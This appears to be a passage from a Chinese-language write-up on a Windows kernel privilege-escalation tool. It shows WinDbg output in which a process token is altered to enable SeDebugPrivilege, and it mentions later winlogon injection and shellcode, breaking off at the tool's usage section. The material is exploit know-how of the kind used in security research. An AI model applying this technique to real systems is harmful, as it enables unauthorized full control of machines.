 ```
// fake_eprocess地址
1: kd> dt nt!_EPROCESS 0xffffbe0786bdf030+50
   +0x000 Pcb              : _KPROCESS
   ....
   +0x470 ProcessQuotaUsage : [2] 0xffffad09`df82b0a9
//查看当前进程token   
1: kd> !token 0xffffad09df82b060
_TOKEN 0xffffad09df82b060
TS Session ID: 0x2
User: S-1-5-21-1858280601-1497283625-3896089107-1001 
//只有这些特权
Privs: 
 19 0x000000013 SeShutdownPrivilege               Attributes - 
 23 0x000000017 SeChangeNotifyPrivilege           Attributes - Enabled Default 
 25 0x000000019 SeUndockPrivilege                 Attributes - 
 33 0x000000021 SeIncreaseWorkingSetPrivilege     Attributes - 
 34 0x000000022 SeTimeZonePrivilege               Attributes -   
//token Enabled   修改前值
1: kd> dq 0xffffad09df82b0a9
ffffad09`df82b0a9  00000000`00008000 00000000`00408000   
//token Enabled   修改后值
1: kd> dq 0xffffad09df82b0a9
ffffad09`df82b0a9  00000000`00007df0 00000000`00408000
//可以看到SeDebugPrivilege特权位已被设置
1: kd> !token 0xffffad09df82b060
_TOKEN 0xffffad09df82b060
TS Session ID: 0x2
User: S-1-5-21-1858280601-1497283625-3896089107-1001 
Primary Group: S-1-5-21-1858280601-1497283625-3896089107-513
Privs: 
 14 0x00000000e SeIncreaseBasePriorityPrivilege   Attributes - Enabled 
 15 0x00000000f SeCreatePagefilePrivilege         Attributes - Enabled 
 16 0x000000010 SeCreatePermanentPrivilege        Attributes - Enabled 
 19 0x000000013 SeShutdownPrivilege               Attributes - Enabled 
 20 0x000000014 SeDebugPrivilege                  Attributes - Enabled 
 21 0x000000015 SeAuditPrivilege                  Attributes - Enabled 
 22 0x000000016 SeSystemEnvironmentPrivilege      Attributes - Enabled 
 25 0x000000019 SeUndockPrivilege                 Attributes - 
 33 0x000000021 SeIncreaseWorkingSetPrivilege     Attributes - 
 34 0x000000022 SeTimeZonePrivilege               Attributes - 
```
通过调试可以看到token的Enabled和Present字段被减去了指定值导致SeDebugPrivilege特权位被设置.接下来就是注入winlogon进行和执行shellcode了,由于shellcode存在注入会话的冲突问题(多用户登录情况),笔者添加了一种基于父进程句柄创建进程的提权技术用于优化,具体可以参考[相关文章](https://windows-internals.com/faxing-your-way-to-system/).

##  工具使用方法 ##

下面是工具的具体使用方法

//安装驱动,需要管理员运行
